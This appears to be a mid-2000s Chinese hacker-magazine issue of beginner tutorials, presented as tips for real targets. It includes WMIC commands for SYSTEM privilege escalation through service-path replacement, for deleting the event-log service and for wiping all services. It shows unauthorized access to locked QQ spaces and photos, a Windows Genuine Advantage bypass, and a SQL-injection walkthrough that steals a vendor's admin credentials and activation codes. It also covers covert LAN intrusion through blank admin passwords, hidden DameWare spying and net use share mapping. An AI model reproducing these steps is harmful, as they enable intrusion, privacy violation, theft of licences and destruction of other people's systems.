> P2P 的形式就决定了它的资源安全性无法保证，BT 被人利用捆绑木马，现在驴子也被用在找肉鸡上，你完全可以通过本文举一反三，因为不仅仅 Radmin 的配置在“共享”，还有很多其他有用的东西等你去发掘。风飘雨语：现在差不多是各大高校开学的时间了，告别了父母，在家里是幸福的，回到学校的大家庭也是幸福的。新学期，应该有一个好的开始，很高兴《手册》可以分享你的快乐，还有新一年拼搏的决心。我们都长大了一岁，不多，但足以让我们懂得很多东西。人可以在一夜之间成熟，因为我们明白了我们的责任。你准备好了吗？在新的一年里付出你全部的努力，我们会一直伴随着你。

## 菜鸟玩转WMI之WMIC（中）

风飘雨

从本文你可以学到：

- 一、利用 WMIC 控制服务
- 二、WMIC 的其它常用管理

通过上一期 WMIC 上篇的介绍，大家应该对 WMIC 有一个初步的认识了吧。不知道上次最后留下的命令你执行了没有呢？就是“wmic service delete”。执行了？那么你打开“服务”（services.msc），你将看到你不曾见过的景象：你的服务列表是空的！呵呵，好玩吗？这也是这期要讲解的内容之一，不过在开始讲解之前，先重装好你的系统。

为什么会出现这种情况呢？通过上期的学习你可以知道，命令调用了“delete”删除了 service 别名下的所有资源，这就引出了今天要讲的一个别名：service。

Service 就是服务，这个别名就是用来操作你系统中所有服务的。通过这个别名，你不仅可以查看服务信息和启动、暂停、停止服务，还可以创建和删除服务（之前需要重要工具才能实现的，现在居然可以直接用命令完成了）。其他几个不常用的操作就不介绍了。

要查看所有服务，也只需要直接在 wmic 的提示符后面输入“service”，如图 1 所示就是运行结果，图 2 是用命令“service where caption=Terminal Services list full”列出终端服务详细信息的情况。对于 where 和 list 等，这期将不再说明，不明白的读者可以查阅上期杂志。

至于这些属性代表什么，不明白的话去恶补一下服务吧，我只给出几个常用的解释：

- AcceptPause  服务是否可被暂停
- AcceptStop  服务是否可被停止
- PathName  服务的程序路径和命令行
- ProcessId  服务运行在当前哪个进程
- State  服务状态，运行还是停止

使用 wmic 查看服务还是很方便的，更重要的是可以看到一些其他工具看不到的信息，比如哪个服务运行在哪个进程里，这对病毒查杀是有利的。要达到这个目的，只要运行命令“service where started=true get name, ProcessID”，结果如图 3。

下面要学习的就是对服务的操作了。要操作还是要用到“call”调用 service 所提供的方法。对服务的一般控制有“StartService”启动服务、“StopService”停止服务、“PauseService”暂停服务等。以“HTTP SSL”服务为例，这个服务默认是停止的，假如我们要启动这个服务，需要用命令“service where caption="http ssl" call startservice”。如图 4 是执行结果和查看状态的结果，说明服务已经启动了。也许你注意到了，在图中执行命令后的返回值“ReturnValue”为“0”，在 WMIC 中返回值为“0”表示执行成功，如果执行失败程序便会返回相应的错误代码。

其他的操作是类似的，还是先定位到你要操作的对象，然后再进行操作，不同的操作无非是调用的方法不同：停止就调用“StopService”，暂停调用“PauseService”，暂停后继续执行调用“ResumeService”。如果你想要将所有运行的服务停止，只要执行“service where state="running" call stopservice”，是不是很方便？

Service 别名中还有几个方法需要介绍一下，例如“change”，调用 change 方法可以改变一个服务的属性，比如服务类型、启动方式等。这个在入侵时是很有用的，如果你有机会在目标机器上执行命令，那你就可以执行“wmic service where caption=http ssl call change PathName=crain.exe”（这里用的是非交互模式），将“HTTP SSL”服务的程序改成“rain.exe”，这样下次当服务再启动的时候（你可以直接用命令重启服务），执行的就是 rain.exe 了，并且权限是 system 哦，这是直接在命令行下提权最有效的方法。

注意：一般地，服务都是不能与桌面交互的，即使你替换成别的程序也是一样。也就是说，以服务启动的普通程序，实质上已经启动了，但是并不会出现程序界面，你可以在任务管理器的进程中找到相应进程，并且对程序的功能不会有影响。如果你想要替换的程序在启动时显示出界面，那就要把相应服务的 DesktopInteract 属性设置为 True。设置方法可以通过执行 wmic 命令“service where caption=http ssl call change DesktopInteract=true”（还是以 HTTP SSL 为例）。这里还要提醒大家的是，一般以服务启动的程序，启动后都会向服务管理器返回代码。如果你替换的不是一个真正的服务，而是一个普通的程序，程序成功执行了，但系统得不到返回结果，系统会认为服务启动失败，会调用相应的错误控制，并且把相应的信息写入日志。

如果你要删除一个服务，那就调用“delete”吧。如果要删除 HTTP SSL 服务，只要运行命令“service where caption="http ssl" delete”就可以了。在入侵时候你就可以利用这个命令来删除对方的日志服务。重启之后日志系统将全部崩溃。效果如图 5 所示（在 Win2003 中，日志是个关键服务，不可以被停止，停止之后系统会立即重启，也就是说你没有办法逃脱日志的纪录；但现在你可以用 WMI 将日志服务彻底删除，不过执行命令后要重启系统才会有效果）。

现在你明白开始那个命令“wmic service delete”是什么意思了吧。它就是删除你计算机里的所有服务。执行命令后，你下次启动电脑会发现启动速度慢了好多，启动后一般的进程只有 10 个最关键进程，而你打开“服务”里面是空的，电脑的大部分功能都不能使用……这是很具破坏力的一个命令，并且会让不知道的人摸不着头脑（整蛊，嘿嘿）。

至于创建服务，一般情况下用不到，这里不具体介绍了。对于服务的操作就先介绍到这里了，还有许多没有介绍的方法，大家可以查看帮助自己研究。

再介绍一个比较有用的别名，“STARTUP”。从名字很好理解，就是“启动”。这个别名可以列出你电脑的启动项，不单单包括注册表的，还有几个比较偏僻的启动位置，如图 6 就是在我的虚拟机里运行的结果，相信这个别名对你查找病毒木马会有不少帮助。

“SHARE”也是一个很有用的别名，它是管理共享资源的。直接输入“share”就可以显示出本机的所有共享资源，如图 7。

我们可以利用 share 别名很方便地用命令来删除共享、修改共享文件的信息。当然，还是用 call 调用相应的方法。例如我们使用命令“share where path!= call delete”就可以删除除 IPC$ 之外的所有共享。

在账号管理方面，我们可以用别名“USERACCOUNT”，单独用命令可以列出你计算机里的用户，如图 8 所示。而你可以用这样一条命令来禁用已经启用的 Guest 帐号：“USERACCOUNT where name=Guest set Disabled=FALSE”，当然你也可以用它来禁用或启用其他用户。至于对这个别名的其他属性和方法，由于篇幅这里就不啰嗦了，大家可以自己研究。

这次主要讲解了服务有关的部分，还剩下最后文件和目录的管理就留在下期。在下期，我们来综合地运用一下 WMIC，完成我们的学习。

> **编辑点评**：多练习一下本期的内容，然后期待 WMIC 最后一期的学习吧。然后呢？你还需要了解一下 VBS 和 PowerShell。它们三个组合到一起，可是微软拿来与 UNIX 下的 Shell 编程所抗衡的终极武器！

> 酷哥：近几个月微软的动作似乎很大，Vista、推广 PowerShell、与 Novell 合作，虽然网上有人评论微软此举是针对红帽的服务器市场，毕竟有 Sun 的前车之鉴了，但不管怎么说，对我们菜鸟来说，只是多了更多好玩的东西罢了，还是比较期待的。未来几个月，我们肯定不会寂寞。

## 空间密码不再止步，密码奈我何

姚丽青

从本文中你可以学到：

- 如何进入加密的 QQ 空间

今天上公开一个 MM 的空间的时候，居然提示要密码才能进去，如图 1。我晕，这不是倒我胃口嘛。又不好意思向那位 MM 要密码，人家还以为我对她有那个想法呢，呵呵。那只好想想其它办法了。看了好几个月的《黑手》了，连这点小事也办不好，以后怎么出来混啊。下面我就说说怎么样进有密码的空间。

方法很简单，先进自己的空间，在 IE 地址栏输入 http://izone.qq.com/ ，就会出现一个 QQ 用户登录界面，输入你自己的号码和密码后不用登录，直接点“发表日志”“创建相册”“空间互动”都可以，如图 2。

进入自己的空间，点击网络日志和相册，IE 地址分别显示 http://izone.qq.com/client/blogMain.htm#uin=334553527 和 http://izone.qq.com/client/photo_main.htm#uin=334553527 。写到这相信大家也知道接下来该怎么做了吧，呵呵，把后面的号码换成你想要进入的空间号码就行了，再把替换好的号码地址在 IE 里面打开就行了。看，如图 3，进去喽！

虽然进去了，但是从图 3 上看还有一个相册是加密的。那个相册里可是 MM 自己的照片啊，要是看不到，我前面所做的不是白费了啊。哼！非得看看你的庐山真面目不可。第一步打开 IE - 工具 - Internet 选项 - 删除文件、删除 Cookies，打开“设置” - “查看文件夹”。这一步只是清理 Temporary Internet Files 文件夹中存放着我们最近浏览过的网页内容，为接下来方便查找。

第二步打开相册，在刚才打开的文件夹里点击刷新，然后找到一个文件名为“cgi_portal_list_album?uin=QQ号码”的文件，打开它，看到些代码，然后在“<![CDATA[相册名]]>”的代码里查找相册名为加密相册名的代码，可以按 Ctrl+F 进行查找。然后在下面一点看到一个 http:// 开头和一串数字结尾的链接，就是加密相册的图片地址了，复制到 IE 上就可以看到了。如图 4，呵呵，美女哦。还等什么啊，大家快去揭开那种神秘画册里的美女吧。

> 编辑点评：看来 TX 没有把 cookie 和 QQ 号码关联啊，这种失误可以称之为漏洞了。这让小编想到了前不久看到的一个可以查看任意 QQ 空间的 Flash，大概也是利用 XML 配合本文的方法吧。

## 绕过微软正版验证，轻松安装 Microsoft Media Player 11 和 IE7.0

winstear

### 从本文中你可以学到：两种方法绕过微软正版验证

作为一个普通的 PC 用户，我想大家都在用 D 版吧，像什么番茄花园、JUJU 猫 and so on。我也不例外，盗版怎么说可以更新补丁，加上这篇文章，免费呀，和正版的功能也差不到哪去。怎么把我们的系统升级为正版的呢？由于微软最近的反盗版政策，使得部分盗版用户的计算机混过验证机制不再像以前那么容易了。如果你也想享受微软的最新服务的话，就赶快行动，把自己的系统也升级一下吧，当然我是指在用 D 版的朋友们，如果你有正版系统就无所谓了！

现在一般用户的操作系统应该都是 XP SP2（确保你已经装有 SP2，如果不是请升级到 XP SP2）。近段时间 Microsoft 已经推出了 Windows Media Player 11 for Windows XP 和 Internet Explorer 7.0 的简体中文版。Windows Media Player 11 for Windows XP 的界面比 Vista 的毫不逊色，比起以前版本操作与功能更加人性化，并且增加了多种视频格式的支持，为数字媒体提供无以伦比的选择和灵活性。使用它可以轻松管理计算机上的数字音乐库、数字照片和数字视频库，并可以将它们同步到各种便携设备上，以便用户可以随时随地欣赏它们。

不过微软的安全机制的破解方法还是比较多的，只要方法对了，安装 Windows Media Player 11 也会畅通无阻。废话不多说，下面就以 Windows Media Player 11 为例切入正题吧。

### 一、下载 Windows Media Player 11 安装文件 windowsxp-x86-zh-cn.exe

如果你的系统是正版，或者是能够到微软网站成功在线升级的盗版，你可以到微软官方网站下载。也可以到国内一些知名的软件站下载安装文件。

至于盗版的在线升级问题，大家可以去网上找一些正版验证补丁。不过有种利用 VBS 脚本（光盘中有提供）替换你当前 Windows 的序列号，通过微软验证完全正版的方法。Windows Media Player 11 下载完毕后，双击安装文件，至验证页面时，点“验证”！当然通过不了，如图 1。

这样做是为了让 C:\Documents and Settings\All Users\Application Data\Windows Genuine Advantage\data 路径上产生一个 data.dat 文件！

接着打开“我的电脑”，在地址栏中输入路径 C:\Documents and Settings\All Users\Application Data\Windows Genuine Advantage\data ，回车，找到 data.dat 文件，删除它，并将 Windows Genuine Advantage 目录设置为只读。下面这个就是关键了：如果你是 LAN 上网，断开本地连接或拔掉网线；如果是 ADSL 上网，那就断开网络或关掉 ADSL 猫。并确认屏幕右下角连接已处于断开的状态，确认网络连接断开后再双击安装文件，就绕过了验证。

下面这个方法也是网络流传的一种。系统中必须安装有 WinRAR 软件，将下载的安装文件 wmpll-windowsxp-x86-zh-cn.exe 用 WinRAR 解压到一个文件夹中。

**需要特别提醒的是，在正式安装前必须要断开网络，切记这一步是安装成功与否的关键。**

进入文件夹 wmpll-windowsxp-x86-zh-cn，找到 umdf.exe、wmfdist11.exe、wmpll.exe 三个文件依次运行，然后重启电脑。

原理：其实原先的 WMP 中可以进行更新升级成为新的版本，像 WMP9 升级到 WMP10，那为什么不能直接提升到 11 呢？是因为微软的 WMP11 不是发行给 XP 系统的用户使用的，所以 WMP10 中没有 WMP11 的更新文件，所以不能直接更新成为 WMP11。而上述办法是将 WMP11 中的更新文件提前进行安装，这样你过去的 WMP 中就含有了 WMP11 的更新文件（而这些更新文件的安装是要求用户重新启动计算机的），所以你过去的 WMP 不能直接运行，而是提示你进行升级成为 WMP11。这样你将不用安装 WMP11，而是更新成为 WMP11，所以当然就跳过了安装验证了（微软的这个验证只是对安装进行验证，而不能对更新成为 WMP11 的用户进行验证）。所以大家请放心使用。

上面的安装过程可以看出，是避开了微软的正版验证这一环节，所以安装完成后再升级还是过不了正版验证这一关的。

同样 Internet Explorer 7.0 也是可以用这个方法安装的。

现在，你就可以享受一下新版的 Windows Media Player 11 给你带来的新奇和惊喜了。

[文章中提到的 VBS 脚本在光盘中有提供]

> 编辑点评：树大了必然招风，微软的验证措施做得再好，也免不了被破解的命运，大客户的序列号是不容易封的。作为中国的 Windows 用户，我们算是幸运的了，多了一种选择，但如果条件允许的话，还是支持一下正版吧。

## 网络嗅探器

### ——手机图铃任我下

崔峰

从本文中你可以学到：

- 一、网络嗅探器的使用
- 二、利用嗅探器下载手机图铃

现在大家的生活水平好了，几乎都有手机了，我也不可例外。可是手机上自带的那些图铃太有限了，如果要下载的话就得花银子，这可怎么办呢？其实很简单，就用今天的主角——“网络嗅探器”。如图 1。

安装过程就不说了，一路回车就好了，但是该软件是要 WinPcap 驱动的，大家也不用担心，这个程序包里已经带了，安装的时候它会自动检测并安装的。

好了，不废话了，下面介绍一下如何使用吧！

在使用之前，我们要先对嗅探器设置一下，依次点击“设置—综合设置”，弹出设置对话框，然后选择“文件类型”选项卡，在下面我们可以看到它可嗅探到的文件类型，这里面基本上包括了我们常用的所有格式，如图 2。

不过软件默认是全部勾选的，这样如果我们直接使用的话，会发现它把所有文件类型的地址都嗅探并显示出来，我们是很难从中选择的。所以最好是我们根据需要下载什么格式的文件就勾选什么类型的。下面我们就去下载一张彩图来感受一下它的功能吧（顺便提一句，很多网站为了不让你下载它的图片，往往用技术手段来做一些限制，比如你在图片上右键——“图片另存为”，这样你会发现你刚保存的图片什么内容也没有）。

下面图 3 是我在下载前的设置（只有“图片文件”里勾选了）。

完成之后点击“开始嗅探”，注意一定要先点击“开始嗅探”，然后再打开图片的页面，如图 4。

看到了吧，一张 2 元，还不含通信费的！再来看看我们的嗅探器，如图 5。

怎么会这么多的地址呢？那是因为网络嗅探器把这个页面所有图片的地址全部显示出来，所以大家在操作的时候一定要先找好你要下载的图片，然后再开始嗅探，再打开要下载图片的链接就可以了，不然的话会更多的！我们的问题来了：这么多的地址到底哪个是我们需要的图片呢？总不能一个一个下载下来看吧？经过测试，发现一个特点就是我们要下载的图片名称和别的图片是不一样的，图 5 中选中的地址就是我们的。大家看出来了吗？我们要下载的图片地址很长，而且文件名全部是数字！这样下面的工作就很简单了，在地址上单击一下，地址就会自动复制到剪贴板，然后打开下载工具，新建一个任务，把地址粘贴上就 OK 了。如图 6。

当然了，要下载铃声的话就简单多了，我们只要在下载前只勾选音频文件就行了，操作和上面的一样，但是这回它返回的就没有这么多了，如图 7。

看到了吧，只有一个地址，直接复制下载就行了。

记得 06 年 12 月的《手册》上有一篇《Impossible is nothing——解开 MP3 真实下载地址之谜》文章，文中作者是通过分析代码的方法得到真实地址的，让我受益不小。但既然是菜鸟，就有菜鸟的方法，不知道用这个软件可不可以，我没有测试（光缆断了，太慢了……），有兴趣的朋友可以试试。至于其他格式的文件操作都差不多，我就不演示了。

> 编辑点评：同一个目的地，但走的路是不同的。只要能达到目的，最简单的方法就是最好的。现在大多铃声下载站做的限制不是很严，除了嗅探外，还有很多方法可以攻破，大家要回去多实践，走自己的路。## Q版主新学期致辞

快快乐乐地过了个寒假和春节后，学生们又来到了亦爱亦恨的学校，一个新的学期又要开始了，而同样我们Q版的菜鸟培训又开始了！~去年，一批Q版黑客的学员正式告别了菜鸟的称号，进入了菜鸟到高手的过渡时期，他们高兴，我们Q版的斑竹也欣慰啊，总算没有白费我的口水和艰苦的手指关节锻炼。本期我们为菜鸟新生准备了丰盛的精神盛宴，算是见面礼吧！你可以在没有自己电脑的情况下学习如何安装操作系统，进行最简单的局域网入侵，亦或在软件破解与SQL注入之间让你的思维天马行空……更多内容尽在Q版，关注我们，让你早日摆脱菜鸟的称号！（旁白：灯光，特写……）

## 注入菜鸟也能玩破解

elin

从本文中你可以学到：
- 抓包分析方法
- 数据库数据整理

### 一、源起

近日一些老师要参加某计算机考试，教材配套光盘仅有一套模拟练习题。为提高通过率，我在网上找到了某款模拟软件，宣称是100%的通过率，不管是否真这么好，先下载来看看。安装运行后发现内置几套题中只提供一套作演示，但感觉确实不错。未激活的软件只能练习这一套题，软件通过激活码网上在线激活，每个激活码官方报价40元，只能激活一台机器且只能激活一次。如果大家为了练习每人都买激活码，再加上老师们考的还不只一个模块，花费还是比较大的。作为一个技术爱好者，虽然我不需要参加考试，但助人是件十分开心的事儿，帮他们想想办法吧（编者按：都这个理由……）！


### 二、分析

下载安装一个模块的练习，首先我随便输入一些字符串激活，弹出如图1所示的对话框（当然不会通过了）。在我试着用网站检测常用的万能密码 `'or'='or'` 作尝试时，出现了如图2所示的对话框，说该码已经使用过了，真是一个令人惊奇的发现。


什么原因呢？难道真有 `'or'='or'` 这个激活码？当然不可能的。大家想到了吗？对，如同我们检测网站用户登录一样，我们提交的 `'or'='or'` 达到了注入的效果。抓包分析让我终于懂得了激活的实际原理，打开WinSock Expert，选择注册程序开始抓包，图3。

随意输入一串字符，确认发送激活码，停止抓包，得到如图4所示的数据，发送目标网站：www.s****.com.cn，链接 `/daml/aspnet_client/system_web/1_1_4322/agent/getOnlineActiveCode.asp?action=edit&regcode=123&serialno=M-42821750107505356996`，其中regcode值即为我们所输入的字符串。

在IE中访问如下地址：

```text
http://www.s****.com.cn/daml/aspnet_client/system_web/1_1_4322/agent/getOnlineActiveCode.asp?action=edit&regcode=123&serialno=M-42821750107505356996
```

得到与提示框一样的信息，如图5。


### 三、尝试

通过上面的分析，我的下一步思路是检测该网站的安全。如果能拿下该站，那么得到激活码就轻而易举了。打开啊D注入工具对该站进行检测，很快得到了14个注入点，如图6，心中不禁大喜，看来有戏！

随意选择一个注入点进行检测，得到有关信息：SQL数据库，DB_OWNER权限，支持多行执行，如图7。


按常规的方法猜解表，奇慢，换了个工具GYSI，检测出百余张表，而且有user字样的也不止一张，这么多表看得头都大了。耐心+细心=成功。最后在T_User表中找到了管理员的账号和密码，如图8。


找到后台登录地址，试登录，成功进入，如图9、10。但把后台都查看一遍后发现没什么可以利用来上传WEBSHELL的，也没有关于此练习模拟的激活相关管理。

停下来整理思路……我们再来试试其它的办法，如SQL数据库差异备份或LOG备份，先来试着目录寻找下WEB目录。经过我耐心细致地寻找，终于找到了本站的目录所在，如图11。


试着用备份的方法得WEBSHELL（其方法我在早些的文章中都有提过，在此不再赘述），结果未能成功，真是郁闷啊！

### 四、突破

继续列目录，再看看我们先前抓包所知道的那个检查激活码的目录。通过列目录知道其是Access数据库，并知道了其目录与文件名，如图12。

但是数据库文件的扩展名是asp，如果做了防下载处理就没办法了，我们先来试一试，如图13。

幸好没有做防下载处理，我们可以用迅雷等下载工具将其下载下来。打开迅雷，果然可以下载，如图14。

下面我们用数据库管理助手打开这个数据库，找到了管理员表，并在MD5在线查询网站上在线破解得到了其密码为：1982****。再列目录，找到管理后台地址，如图15、16。

成功登录，可以看到有关激活码的相关信息，还有代理商的信息。我们只需挑选还未注册过的激活码就可以使用了，如图17、18、19。

我们能不能把所有未使用的激活码快速整理出来呢？其实是否使用在数据库中是有记录的。还用数据库管理助手打开我们下载下来的数据库文件，可以发现使用过的激活码，F_Serial、F_Regtime等字段是非空的，而未使用时是空的。我们找到一个F_Serial字段为空的激活码先来试一试，就用图中上面的84645******6336吧，果然成功激活，如图20、21。

我们来将数据库文件中使用过的激活码的记录删去，剩下的就是全部可用的了。换用多功能数据库浏览器，利用其中的搜索功能，然后勾选“执行SQL查询”，输入SQL语句：

```sql
delete * from tc_newreg where f_serial <> ''
```

点“执行”按钮，这样我们就使用delete语句完成了用过的记录的删除。保存以后，我们可以看到就剩下可用的激活码了，如图22、23、24。


### 五、尾声

得到所有的激活码，选了几条给他们做练习软件，真是乐事一桩，但同时也令我思考很多。我想尊重软件开发者们的劳动，我用了几条激活码，并不是没有给他们合理的利益。当事情既已得手，希望他们能尽快修补一下，不至有更大的损失。这次激活码就算是我的劳动报酬吧，开发者会不会介意呢。最后再提醒一下朋友，如果是拿去转手卖掉的话，那可是不对的哦，我可不是在这样做的。

【编者点评】
启霖说：这是一篇精彩的文章。通过这篇文字也可以看出，高手在民间。作者从软件的破解原理到SQL注入，一步步展开，这是一篇由动态到静态的有趣文章，更难得的是作者最后成功破解了激活机制。这样的文章真是令人钦佩。


## 跟我进行LAN内最实惠的入侵

从本文中你可以学到：
- 局域网中最简单的入侵方法
- 如何在命令行下进行网络驱动器映射

第一步，首先你得让人“抓”到，请出X-Scan扫描器。由于最终入侵的目的无非就是看红/绿灯式检测的方法，所以在X-Scan的“扫描参数”选项中一定不要多选多项，这样可以保证扫描的速度。只要检测出对方的IP范围即可。比如在网络中填写“检测范围”时，就填入LAN的网段，比如：“10.81.2.2-10.81.2.253”。“全局设置”中的“扫描模式”只选择“只扫描在线主机”。


第二步，运行DameWare远程控制软件试用版，将X-Scan中扫描出的几个IP、用户名和密码依次填入对应的项目后进行连接。马上DameWare就会提示你在远程计算机上安装DameWare客户端，稍等片刻，设置一个“特别小心不要在远程计算机上显示DameWare的运行窗口”，之后你就会看到对方的桌面了，如图2。


进入后点击“仅仅查看”按钮，如此则可安心地查看对方在做什么了。因为我们的目的只是控制，所以千万千万不要去跟对方抢鼠标或者键盘什么的（偶当年就这么做过，结果对方马上就发现了“夺权”，开始“封锁”来着，于是不久人家给了我个教训，最后只好重新开始，当然切记不能有类似举动）。

第三步，经过上面的两步确认后，我们就可以在对方那儿查看对方的资料并进行“复制”。由于我们使用的是DameWare试用版，其文件传输功能比完整版受限，所以这一步我们可以不用动任何工具，直接使用Win2000/XP自带的Net use命令来与对方磁盘共享部分进行网络连接。打开自己的CMD命令窗口，输入：

```text
Net use X: \\10.81.2.108\D$ /user:"administrator"
```

后回车，系统马上提示“命令成功完成”，如图3。


此命令行的意思是将对方的（10.81.2.108）的D盘映射为自己的X盘，连接使用的用户名是Administrator，口令为空（这就是用X-Scan扫描得到的）。接着就可以关闭CMD窗口，同样在自己的桌面右击“我的电脑”选择“资源管理器”，看到如下，是不是多了一个X盘，如图4。

这就是对方的D盘。现在这就是“我的地盘”了，就像是自己的分区一样，对其中任何资料的任何操作都不会有限制——除非对方正在使用它。不过呢，大家还是要坚持“只查看/复制而不修改/删除”的原则。这一点以后，另外更主要的就是隐藏性极强，使之不易被对方发现。否则对方一旦发现有麻烦的话，即使你弄来的东西也可能暴露问题。要么最终被找出，要么闹得对方苦不堪言，结果一无所获。所以还是“查看/复制完成时才关闭”，尽量不要写入对方共享目录。对方一旦出现系统重启之类的异常，就可能重新发现我们。

最后一句：工具不在多，用着就好；思路不在繁，奏效即可。祝大家做个LAN里的好“卧底”，把LAN做成自己的大本营。

【文中涉及到的工具：DameWare远程控制软件试用版在光盘中有收录，X-Scan可到 www.xfocus.net 下载】

编辑点评：一个成熟的管理员总会为你造成不少障碍，在WAN上如此，那么在内网中，怎么总有你的LAN这种仿佛“自家庭院”般的妙境呢？但事实上它又有其前提：对方的操作系统必须为Windows NT/2000，而映射时网络服务及共享文件的支持也必须具备。

## 菜鸟也拥有练习安装操作系统的电脑

pop

从本文中你可以学到：一个模拟Windows XP安装的小东西。相信很多的菜鸟朋友都不会安装系统，想学又没有机器来练习，怕把自己的机器装坏了。所以下面给大家介绍一个能模拟系统安装的软件——“Windows XP Setup Simulator”。

### 一、安装软件

这个东西的安装十分简单，在图1的地方选择任意安装目录，点击Install便可以完成安装。


### 二、开始安装系统

软件安装之后，只需要打开文件夹，点击里面的“Windows XP Setup.exe”文件即可。点击之后就会进入到安装系统的界面了，如图2。


大家可以看上图上的提示进行操作，点击“Enter（回车）”就可以进行下一步安装。然后就会出现安装系统需要知道的条款，如图3。


后面的操作，比如删除当前的磁盘就可以按键盘的“D”，其实都是一些简单的英文。要是安装中文版的操作系统，也会有相应的中文提示，大家按照提示即可。在这个模拟器里面，我们直接按键盘的“Enter”进行安装，然后就会出现格式化磁盘的界面，如图5。


一般我们在格式化磁盘的时候建议选择上面的“快速格式化”。要是你是做服务器的，建议你选用“NTFS”的格式，因为“NTFS”格式的磁盘可以对每个目录进行权限的设置，这样会更加安全。


要是你是一般的用户，FAT和NTFS两种磁盘格式都可以选择。这时，按键盘上的“上下方向键”即可对格式进行选择，然后按键盘的“Enter”就会开始格式化磁盘以及复制安装文件到磁盘，如图6。

等到磁盘格式化以及复制安装文件完毕之后，计算机会自动重启，并且开始安装整个系统，如图7。

经过几分钟的等待之后，就需要对系统的一些初始信息进行设置，比如设置用户和组织、CD-Key、计算机名称、管理员密码及时间等，如图8、9、10、11。

然后计算机就会安装网络，所以我们要对网络进行一下设置，如图12、13。

最后计算机就会自动安装完毕，并且会自动重启。这时我们的一个系统就算完成了，如图14。

小提示：要是在安装过程中不想继续安装，可以按键盘的“Esc”，选择“yes”就会退出模拟器，选择“no”会继续安装。

### 三、安装之后

当我们安装完一个系统之后，不要急于开始使用。需要做的是对机器进行一下必要的优化以及一些安全设置，比如安装杀毒软件、打上最新的系统补丁、删除默认的共享等等。


希望大家能在看完这篇文章之后自己动手尝试一下，要不还是一头雾水，就别怪我了哦！

> [文章中涉及到的工具Windows XP Setup Simulator在光盘中有收录]

编辑点评：很多朋友虽然学习网络安全技术已有些时日，但不会安装操作系统，这听起来虽然有些荒谬可笑，但却是事实，小编可以作证！其实安装一个操作系统并不繁琐，都是固定的步骤，有几次安装经历的朋友相信就不会对这个事情困惑了。这篇文章给我们一些没有安装过系统的朋友，尤其是在网吧的朋友指出了一条光明大道——没有裸机也可以学习安装操作系统！期待更多这样的模拟软件被发掘！


## 再也不要背叛我——迅雷

JiaJia [YuLv]

### 从本文中你可以学到：

- 一种巧妙的解决迅雷上传文件的方法

### 一、起因

目前用得最多的下载工具要属当红的“迅雷”大叔了。都说迅雷有迅雷不及掩耳之势，也就说明了它的速度之快。然而自从迅雷融入了P2SP的下载方式之后，这一切似乎改变了（其实就是BT），感觉开着迅雷上网就是一个“慢”字（嘿嘿，不开哪来的积分呀！）。主要原因是它在空闲的时候会偷偷地进行上传活动（以前没有限制上传速度的设置选项的时候更麻烦）。这样背地里秘密进行的活动我们根本毫无还手之力（关掉不得了？无语……）。可以说只要开着迅雷连上网络，现有的带宽就会少了一大截，有时甚至会出现没有足够的带宽资源去访问网页，这可叫人抓狂啊！我因此已经忍无可忍了，所以有了本文。

好了，不多说了。今天我就教大家一种有效的方法使得迅雷无法背叛我们。下面就进入主题吧！

### 二、分析

迅雷能暗地里偷偷地上传文件，一定是知道文件的路径。如果让迅雷找不到文件，不就能不上传了吗？也就不会占用我们宝贵的宽带资源了。那么迅雷是怎么知道文件路径的呢？肯定是自己下载文件的时候选择的保存路径+文件名的嘛（废话……）！

知道这个原因之后，我们可以想到让迅雷找不到文件的方法无非有两个：第一，文件下载完之后更改文件名；第二，文件下载完成之后移动到别的文件夹内。相对来说还是更改文件名这种方法简单一些，因为文件大了，移动需要消耗宝贵的时间，更加损害我们心爱的硬盘（嗯嗯！）。

有人会问，难道我们要每次下载完成之后都要手动更改文件名？这样会很累哦。答案是否定的，在这里我自己做了一个自动更名的小工具——“加加文件改名助手”，有了这个小助手我们就可以省去那些繁琐的步骤了。下面大家就跟着我一起来解决问题吧！

### 三、解决

在这次分析中，迅雷的“配置”选项中的“病毒保护”给了我很大的启发，可以好好利用起来了。原来我还想怎么判断文件下载完成呢！这不，无意看见这个功能，眼睛一亮。这样一说，相信聪明的你已经想到后面要怎么做了吧！

首先是设置“病毒保护”这一栏，把“下载完成后查杀病毒”这个选项打上勾，再选择文件改名助手文件所在的路径，参数不用填。完成后点击“确定”即可，如图1。


这样设置完成就好啦。可是这样查毒的功能不就被这个改文件名的小工具占去了？对，如果不需要查毒功能的朋友，到这一步就可完成了。那么需要查毒功能的朋友就必须设置好文件改名助手的配置文件了。配置文件就是程序目录下的“FileRenerSet.txt”。直接用记事本打开编辑即可，如图2。


从字面上也很容易知道意思，我只简单地给大家说说。

“文件名=”这个选项默认设置为空，程序自动改名的方式为“月+日+随机数组+原文件名”；若更改成任意“文件名=XXX”，则程序自动改名的方式变为“XXX+原文件名”。

提示：文件名不能包含：`\ / : * ? " < > |`


“杀毒软件=”后面跟上杀毒软件路径即可。“扫描参数=”后面跟上命令行下扫描的参数。一般这个参数在杀毒软件的帮助文件内都可以搜索到，我只提供了常用的三种杀毒软件的扫描参数作为演示。这里要注意的是，有些杀毒软件的扫描参数后面需要加上空格，如卡巴就需要。

到这里就全部完成了，设置完后保存“FileRenerSet.txt”就可以了，以后用迅雷就高枕无忧啦！

### 四、写在最后

补充三点：

- 第一，建议想完全杜绝迅雷上传东西的朋友把已下载的记录全清空。
- 第二，此方法在类似的其它下载软件也适用，如QQ超级旋风，如图3。
- 第三，直接调用文件改名助手的方法是，在运行中输入命令“[文件改名助手] [要改名的文件路径]”回车完成；或者将要改名的文件用鼠标拖到文件改名助手的图标上即可。

如果大家有什么疑问或者想法，都可以到NoHack的BBS（Www.NoHack.Cn/bbs）或我的Blog（Http://Www.YuLv.Net）上留言，我的ID是JiaJia。

> [文中涉及的工具加加文件改名助手在光盘中有收录]

编辑点评：迅雷一直是小编钟爱的下载软件，其官方网站方便用户下载的各种资源也是偶选择的理由之一。前一阵下载LIVE IN TEXAS，速度竟然达到了1.2M/S，惊喜之余却发现网页的打开速度急剧下降，不得其解。今天读了这篇文章豁然开朗了。现在越来越多的下载软件将BT的下载方式整合进了本身，比如重新命名为“快车”的网际快车，看来BT方式的确有其存在的意义。但小编仍然喜欢传统的下载方式，希望这篇文章可以帮助你解决和我一样的困惑。文章的亮点是自动重命名完成下载的文件的方法和那个小工具！## 愚人节的礼物

红山茶

从本文中你可以学到：

- 1、如何不用输入旧系统密码就可以设置新密码
- 2、禁用本地用户和组以及其它相关项目的方法

恶搞成风的今天，不管网上的还是现实生活中多少也会被人搞几下。什么你没有被人恶搞过？不是吧！记得愚人节那一天下午回来开机密码不对，回想这一天都是看别人整人，俺是老实人不太会整人。我从纳闷的心情中静下来仔细地分析了一下：

图 1 设置密码
